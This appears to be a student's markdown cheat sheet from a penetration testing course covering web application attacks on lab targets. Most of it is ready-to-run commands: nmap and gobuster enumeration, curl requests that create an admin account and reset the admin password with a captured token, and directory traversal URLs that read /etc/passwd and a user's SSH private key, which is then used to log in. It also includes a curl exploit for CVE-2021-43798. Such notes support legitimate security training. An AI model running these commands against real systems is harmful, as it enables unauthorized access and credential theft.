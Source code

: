 # NMAP
fingerprinting
```
nmap -p80 -sV 192.168.241.51
nmap -p80 -sV --script=http-enum 192.168.241.51
```
# GOBUSTER
Directory brute forcing
```
gobuster dir -u 192.168.241.51 -w /usr/share/wordlists/dirb/common.txt -t 5
```
# APIs 
```
gobuster dir -u http://192.168.241.51:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
pattern recognition file
```
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
{GOBUSTER}/v4
{GOBUSTER}/v5
{GOBUSTER}/v1/admin
```
JSON manipulation
```
curl -i http://192.168.241.51:5002/users/v1/login
#json curl with password
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
# new user as admin
curl -d '{"password":"lab","username":"offsec-admin","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
```
Steal Admin token
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
# XSS 

# Directory traversal
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
```
```
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

## use their ssh key
```
vim dt_key
chmod 400 dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com

```
## CVE-2021-43798
```
curl --path-as-is http://192.168.249.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt

```

# Checklist
get application/version 
robots.txt
sitemap.xml
dirb 

